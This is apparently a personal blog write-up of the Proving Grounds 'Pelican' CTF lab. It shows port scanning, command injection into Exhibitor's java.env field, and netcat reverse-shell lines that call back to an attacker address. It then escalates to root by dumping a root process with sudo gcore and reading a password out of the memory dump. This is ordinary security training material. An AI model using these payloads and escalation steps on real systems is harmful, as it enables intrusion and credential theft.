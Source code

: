```yaml
---
layout: post
title: Proving Grounds - Pelican
subtitle: CTF Walkthrough
cover-img: /assets/img/pelican/pelican-cover.jpg
thumbnail-img: /assets/img/pelican/pelican.jpg
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```


Another Proving Grounds box which is rated as Intermediate by community and the platform. Box found in OSCP like box lists. 

### Enumeration

```
└─$ rustscan -a 192.168.209.98 -- -sC -sV | tee nmap
[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.209.98:22
Open 192.168.209.98:139
Open 192.168.209.98:445
Open 192.168.209.98:631
Open 192.168.209.98:2181
Open 192.168.209.98:2222
Open 192.168.209.98:8080
Open 192.168.209.98:8081
cOpen 192.168.209.98:36233
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV" on ip 192.168.209.98
PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   syn-ack Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp  open  http        syn-ack Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        syn-ack nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.209.98:8080/exhibitor/v1/ui/index.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.2
36233/tcp open  java-rmi    syn-ack Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-11-14T18:17:05
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2022-11-14T13:17:06-05:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 41584/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19963/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 34972/udp): CLEAN (Timeout)
|   Check 4 (port 24115/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
```

While rustscan was running, I attempted to check webservers from verbose scan output. Opening webserver on port 8081 I was re-directed to http://192.168.209.98:8080/exhibitor/v1/ui/index.html.

![alt text](/assets/img/pelican/1.png)

I wasn't exactly sure what I am looking at, so I decided to click around and search for exploits with Searchsploit.

![alt text](/assets/img/pelican/2.png)

I did find 48654 exploit for Exhibitor version 1.7.1, but decided to check it our anyway and attempted to perform the exploit as described in this section.

```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

I have set a listener on port 8080, changed java.env script to:
```
$(/bin/nc -e /bin/sh 192.168.49.209 8080 &)
```

And got a low privileged shell as user Charles. 
```
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.98] 60278
whoami
charles
python3 -c "import pty;pty.spawn('/bin/bash')"
charles@pelican:/opt/zookeeper$ pwd
pwd
/opt/zookeeper

charles@pelican:~$ ls /home/charles
ls /home/charles
local.txt
```

### Privilege escalation

One of the first things I like to check is what user can run as sudo.

```
charles@pelican:/tmp$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

Looks like gcore can be used with sudo rights. This binary can generate a dump of running processes. For that I need to find a process which might be interesting to look at. I used command below and manually reviewed running processes until I found one that looks to be interesting enough.

```
charles@pelican:/tmp$ ps -aux | grep -i root

root       492  0.0  0.0   2276    72 ?        Ss   11:56   0:00 /usr/bin/password-store
```

To generate a dump I used:

```
sudo gcore 492
```

Then I used **strings** to analyse the output.

```
strings core.492
```

As there wasn't much output I found the password quite easily.

![alt text](/assets/img/pelican/3.png)

Changed used to root using **su** and I was able to read the flag.

```
root@pelican:/tmp# cat /root/proof.txt
cat /root/proof.txt
b6a5f2947dd8d0e3******
```

GG. Fun lab.